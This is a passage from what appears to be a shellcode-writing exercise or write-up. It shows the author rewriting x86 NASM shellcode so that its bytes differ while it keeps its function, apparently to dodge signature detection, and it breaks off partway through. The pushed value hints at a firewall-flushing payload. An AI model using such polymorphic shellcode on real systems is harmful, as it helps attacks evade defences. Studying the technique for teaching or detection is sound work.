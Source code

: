 Now let me describe the changes. First, I've changed the following instructions:

```nasm
global _start

section .text

_start:

    xor eax,eax
    push eax
    push word 0x462d
    mov esi,esp
    push eax
```

Into this:

```nasm
global _start

section .text

_start:

    ; clear EBX, EAX, and EDX
    xor ebx, ebx
    mul ebx
    
    ; instead of pushing EAX, push EDX
    push edx

    ; push word 0x462d
    ; instead of pushing the WORD 0x462d, use two steps
    mov di, 0x462d
    push di
```

Starting from the beginning, instead of clearing only the register `EAX`, I'm also clearing `EBX` and `EDX`. Moreover, instead of using the instruction `push eax`, I'm using `push edx` in order to change the byte of the instruction.

Next, instead of using the instruction `push 0x462d` I chose a two-steps approach, at the cost of adding more bytes to the shellcode.

In particular, I chose to use the `MOV` instruction to copy the WORD `0x462d` into the 16-bits `DI` register, and after that push it to the stack.

After that:

```nasm
    ; use edi instead of esi
    mov edi, esp
  
    ; use EBX or EDX instead of EAX
    push edx
```
